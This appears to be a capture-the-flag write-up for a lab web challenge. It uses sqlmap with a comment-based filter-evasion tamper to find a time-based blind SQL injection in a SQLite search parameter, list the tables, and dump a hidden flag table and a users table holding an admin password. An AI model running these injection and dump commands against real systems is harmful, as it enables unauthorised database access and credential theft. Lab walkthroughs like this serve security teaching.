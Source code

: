 /s**tap***l
/santapanel



```console
$ sqlmap -r day5 --tamper=space2comment     
.
.

[07:46:20] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests
```
let add --level=5
```console
$ sqlmap -r day5 --tamper=space2comment --level 5
.
.
[07:48:20] [INFO] testing 'Generic inline queries'
[07:48:20] [INFO] testing 'SQLite inline queries'
[07:48:20] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[07:48:20] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[07:48:21] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[07:48:41] [INFO] GET parameter 'search' appears to be 'SQLite > 2.0 AND time-based blind (heavy query)' injectable 
```
yeah something is happening here :D, now just wait and wait for the scan is done.


the next goal is dump the database. SQLite is running as dbms, we dont need to run `sqlmap --dbs` since SQLite dont have databases, **only tables**.
```console
└─$ sqlmap -r day5 --tamper=space2comment --level 5 --threads 10 --tables 
.
.
Database: SQLite_masterdb
[3 tables]
+--------------+
| hidden_table |
| sequels      |
| users        |
+--------------+
```
`hidden_table` looks interesting, let dump it!
```console
$ sqlmap -r day5 --tamper=space2comment --level 5 --threads 10 -T 'hidden_table' --dump
.
.
.
[08:02:13] [INFO] fetching entries for table 'hidden_table' in database 'SQLite_masterdb'
Database: SQLite_masterdb
Table: hidden_table
[1 entry]
+-----------------------------------------+
| flag                                    |
+-----------------------------------------+
| thmfox{All____________________________} |
+-----------------------------------------+
```

to find admin password -> dump `users` table
```console
$ sqlmap -r day5 --tamper=space2comment --level 5 --threads 10 -T 'users' --dump
.
.
.
[08:05:24] [INFO] fetching entries for table 'users' in database 'SQLite_masterdb'
Database: SQLite_masterdb
Table: users
[1 entry]
+------------------+----------+
| password         | username |
+------------------+----------+
| EhCNSWzzFP6sc7gB | admin    |
+------------------+----------+
```